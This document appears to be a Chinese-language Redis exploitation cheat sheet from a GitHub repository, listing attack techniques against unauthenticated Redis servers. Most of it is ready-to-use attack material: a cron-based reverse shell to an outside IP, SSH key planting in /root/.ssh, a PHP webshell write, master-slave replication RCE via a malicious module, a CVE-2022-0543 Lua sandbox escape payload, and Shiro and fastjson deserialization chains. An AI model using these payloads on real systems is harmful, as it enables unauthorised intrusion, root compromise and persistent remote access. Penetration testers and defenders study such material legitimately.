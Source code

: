 # 直接利用

https://github.com/qishibo/AnotherRedisDesktopManager

>未授权/弱口令

![redis](image.png)

## 文件写入

1. 计划任务反弹shell

>以root权限启动,发行版限制为centos/redhat,涉及到计划任务的格式问题

```
set x '\n\n*/1 * * * * bash -i >& /dev/tcp/192.168.1.1/12345 0>&1\n\n'
config set dir /var/spool/cron/
config set dbfilename root
save
```

2. 写入ssh公钥

>以root权限启动,系统允许密钥登录

```
set x '\n\nssh-rsa xxx\n\n'
config set dir /root/.ssh
config set dbfilename authorized_keys
save
```

>也可以写入/etc/shadow

3. 写入webshell

>已知web目录,具有写权限

```
set x '\n\n<?php phpinfo();?>\n\n'
config set dir /var/www/html
config set dbfilename info.php
save
```

## 主从复制RCE

>linux加载恶意so文件,windows加载恶意dll文件

通过主从复制,将恶意文件从主机通过FULLRESYNC同步到从机,从机加载恶意文件达到RCE目的

[恶意文件so](https://github.com/n0b0dyCN/RedisModules-ExecuteCommand.git)

make编译得到so文件

[主从复制脚本](https://github.com/Ridter/redis-rce)

`python3 redis-rce.py -r 127.0.0.1 -L 172.17.0.1 -f module.so`

![主从复制](image-3.png)

>流量分析

- 正常的redis服务称为r1,exp伪装的redis服务称为r2

- r2向r1发送`INFO`请求,根据回显中是否包含`NOAUTH`字段判断r1是否需要鉴权

- r2向r1发送`slaveof host port`命令,让r1转变为r2的从属服务器,r1响应`OK`

- r2向r1发送`config set dbfilename module.so`设置文件名,r1响应`OK`

- r1向r2发送`PING`,测试链接是否生效,r2响应`PONG`

- r1向r2定时发送`REPLCONF`,类似于存活检测机制,r2响应`OK`

- 检测到r1发送`PSYNC`同步请求时,r2响应`FULLRESYNC`并将恶意so文件同步到r1中,完成该操作后,r2向r1发送`module load module.so`加载恶意so,并发送`slaveof no one`关闭主从复制

>windows参考

https://github.com/0671/RedisModules-ExecuteCommand-for-Windows

需要vs2017

//TODO windows测试

## CVE-2022-0543

Redis-Lua沙盒绕过命令执行

>没在真实环境中见过,参考vulhub里面的漏洞复现

我们借助Lua沙箱中遗留的变量`package`的`loadlib`函数来加载动态链接库`/usr/lib/x86_64-linux-gnu/liblua5.1.so.0`里的导出函数`luaopen_io`。在Lua中执行这个导出函数，即可获得`io`库，再使用其执行命令：

```lua
local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io");
local io = io_l();
local f = io.popen("id", "r");
local res = f:read("*a");
f:close();
return res
```

值得注意的是，不同环境下的liblua库路径不同，你需要指定一个正确的路径。在我们Vulhub环境（Ubuntu fiocal）中，这个路径是`/usr/lib/x86_64-linux-gnu/liblua5.1.so.0`。

连接redis，使用`eval`命令执行上述脚本：

```lua
eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("id", "r"); local res = f:read("*a"); f:close(); return res' 0
```

# 间接利用

## 与shiro结合

shiro中的序列化后的session被保存在redis中,通过redis未授权访问,修改shiro的序列化数据进行任意反序列化达到rce目的

[https://github.com/alexxiyang/shiro-redis-spring-boot-tutorial](https://github.com/alexxiyang/shiro-redis-spring-boot-tutorial)

![shiro-login](image-1.png)

![redis-session](image-2.png)

利用ysoserial生成exp,在redis中新建一个session的键值对,将exp保存到其中

![ysoserial CB链](image-4.png)

![redis](image-5.png)

修改jessionid重新发包即可

![jessionid](image-7.png)

![exploit](image-6.png)

## 与fastjson结合

以[https://github.com/MiracleTanC/springboot-redis-demo](https://github.com/MiracleTanC/springboot-redis-demo)为例

redis中保存了当前文章的阅读次数

![redis-read-count](image-8.png)

添加`viewcount_2:{"asdf":1"}`一个错误的json查看页面的回显

![fastjson-error](image-9.png)

错误回显中提示在进行`parseObject`时出现异常

使用dnslog进行测试

```json
{
    "@type": "java.net.Inet4Address",
    "val": "f2af98d28e.ipv6.1433.eu.org"
}
```

![dnslog](image-10.png)

## ssrf利用

//TODO ssrf




# Windows攻击面拓展

[踩坑记录-Redis(Windows)的getshell](https://xz.aliyun.com/t/7940)